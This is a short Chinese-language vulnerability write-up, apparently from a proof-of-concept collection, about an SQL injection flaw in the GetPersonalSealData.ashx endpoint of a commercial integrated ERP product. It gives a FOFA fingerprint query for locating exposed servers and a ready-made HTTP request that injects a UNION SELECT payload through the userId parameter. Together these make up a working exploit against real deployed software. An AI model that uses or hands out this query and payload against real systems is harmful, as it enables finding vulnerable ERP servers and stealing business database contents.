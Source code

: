 **fofa**

```
body="SYSA/images/zbintelsng.png"
```

**一、漏洞简述**

某邦一体化ERP将企业物流、资金流、信息流等所有资源整合在一起，对销售、采购、生产、成本、库存、分销、运输、财务、人力资源进行规划，在一套系统内解决企业所有的管理问题，数据实时共享，全程监控各个环节的运转和协作，让企业最大限度利用现有资源取得最佳经济效益。其接口GetPersonalSealData.ashx存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml
GET /SYSN/json/pcclient/GetPersonalSealData.ashx?imageDate=1&userId=-1%20union%20select%20@@version-- HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
```


